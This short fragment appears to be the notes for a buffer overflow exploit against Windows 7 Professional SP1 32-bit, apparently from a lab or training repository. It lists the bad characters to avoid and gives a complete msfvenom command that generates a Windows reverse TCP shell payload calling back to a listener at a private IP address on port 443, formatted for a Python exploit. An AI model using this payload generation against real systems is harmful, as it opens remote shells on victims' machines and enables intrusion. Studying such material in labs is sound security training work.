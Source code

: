 

Created for Windows 7 Professional SP1 32bits

Badchars: \x00\xa9\xcd\xd4

Msfvenom: msfvenom -p windows/shell_reverse_tcp lhost=10.13.46.217 lport=443 exitfunc=thread -b "\x00\xa9\xcd\xd4" -v esp -f python
